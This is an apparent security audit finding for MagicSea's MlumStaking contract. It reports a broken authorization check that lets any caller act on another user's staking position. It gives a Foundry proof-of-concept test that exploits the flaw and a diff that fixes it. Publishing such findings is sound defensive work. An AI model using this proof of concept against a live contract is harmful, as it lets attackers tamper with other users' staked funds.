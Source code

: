Sticky Carmine Dragon

High

# Incorrect validation in `MlumStaking::_requireOnlyOperatorOrOwnerOf`

## Summary

The check in the `MlumStaking::_requireOnlyOperatorOrOwnerOf` function always passes for any `msg.sender` and any `tokenId`.

## Vulnerability Detail

The `MlumStaking::_requireOnlyOperatorOrOwnerOf` function utilizes the `ERC721Upgradeable._isAuthorized` function behind the scenes, which takes `owner` and `sender` as parameters. However, `msg.sender` is sent in both instances, meaning that `msg.sender` is treated as the owner for any `tokenId`. Within the `ERC721Upgradeable._isAuthorized` implementation, there is a check to see if `owner == spender`. If this condition is met, the sender is considered authorized. Consequently, any `msg.sender` for any `tokenId` is deemed authorized.

```solidity
function _requireOnlyOperatorOrOwnerOf(uint256 tokenId) internal view {
    // isApprovedOrOwner: caller has no rights on token
    require(ERC721Upgradeable._isAuthorized(msg.sender, msg.sender, tokenId), "FORBIDDEN");
}
```

```solidity
function _isAuthorized(address owner, address spender, uint256 tokenId) internal view virtual returns (bool) {
    return
        spender != address(0) &&
        (owner == spender || isApprovedForAll(owner, spender) || _getApproved(tokenId) == spender);
}
```

## Impact

Any function that employs the `_requireOnlyOperatorOrOwnerOf` check can be bypassed. Currently, in the contract's implementation, only the `addToPosition` function utilizes this check. This allows malicious users to call it on behalf of another user, thereby increasing their staking duration.

## POC

Modify the `MlumStakingTest::testAddToPosition` test.

```solidity
function testAddToPosition() public {
    _stakingToken.mint(ALICE, 2 ether);

    vm.startPrank(ALICE);
    _stakingToken.approve(address(_pool), 1 ether);
    _pool.createPosition(1 ether, 1 days);
    vm.stopPrank();

    // check lockduration
    MlumStaking.StakingPosition memory position = _pool.getStakingPosition(1);
    assertEq(position.lockDuration, 1 days);

    skip(43200);

    // add to position should take calc. avg. lock duration
    address anyone = makeAddr("anyone");
    _stakingToken.mint(anyone, 1 ether);

    vm.startPrank(anyone);
    _stakingToken.approve(address(_pool), 1 ether);
    _pool.addToPosition(1, 1 ether);
    vm.stopPrank();

    position = _pool.getStakingPosition(1);

    assertEq(position.lockDuration, 64800);
}
```

## Code Snippet

https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L140-L143

## Tool used

Manual Review

## Recommendation
```diff
     function _requireOnlyOperatorOrOwnerOf(uint256 tokenId) internal view {
         // isApprovedOrOwner: caller has no rights on token
-        require(ERC721Upgradeable._isAuthorized(msg.sender, msg.sender, tokenId), "FORBIDDEN");
+        address owner = _ownerOf(tokenId);
+        require(ERC721Upgradeable._isAuthorized(owner, msg.sender, tokenId), "FORBIDDEN");
     }
```
